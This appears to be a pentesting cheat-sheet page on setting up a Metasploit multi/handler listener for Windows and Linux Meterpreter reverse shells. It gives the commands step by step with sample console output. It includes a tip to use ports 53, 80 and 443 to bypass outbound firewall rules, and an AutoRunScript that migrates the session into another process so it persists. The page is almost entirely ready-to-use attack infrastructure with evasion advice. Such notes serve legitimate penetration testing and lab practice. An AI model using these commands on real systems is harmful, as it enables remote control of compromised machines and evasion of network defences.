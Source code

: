 ```yaml
---
title: "Metasploit Listener"
date: 2024-6-26
tags: ["Metasploit", "Firewall", "Reverse Shell", "Shellcode", "Listener", "Reverse Shell", "Msfconsole"]
---
```


### Start a Metasploit Listener

```console
msfconsole -q
```

```console {class="sample-code"}
$ msfconsole -q
msf6 >
```

```console
use exploit/multi/handler
```

```console {class="sample-code"}
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

```console
# Windows x64
set payload windows/x64/meterpreter/reverse_tcp
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

```console
# Linux amd64
set payload linux/x64/meterpreter/reverse_tcp
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lhost 10.10.14.31
lhost => 10.10.14.31
```

```console
set lport <LOCAL_PORT>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
```

```console
# Useful for multiple connections
set exitonsession false
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set exitonsession false
exitonsession => false
```

```console
run -j
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started reverse TCP handler on 10.10.14.4:1337     <----- Press Enter
```

<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

### If the shell die immediately, we can try to migrate it to another process

```console
# Create a automigrate.rc script
run post/windows/manage/migrate
```

```console {class="sample-code"}
$ cat automigrate.rc 
run post/windows/manage/migrate
```

<br>

```console
msfconsole -q
```

```console {class="sample-code"}
$ msfconsole -q
msf6 >
```

```console
use exploit/multi/handler
```

```console {class="sample-code"}
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

```console
set payload windows/meterpreter/reverse_tcp
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lhost 10.10.14.31
lhost => 10.10.14.31
```

```console
set lport <LOCAL_PORT>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
```

```console
set AutoRunScript multi_console_command -r automigrate.rc
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set AutoRunScript multi_console_command -r automigrate.rc
AutoRunScript => multi_console_command -r automigrate.rc
```

```console
run
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.31:1337 
```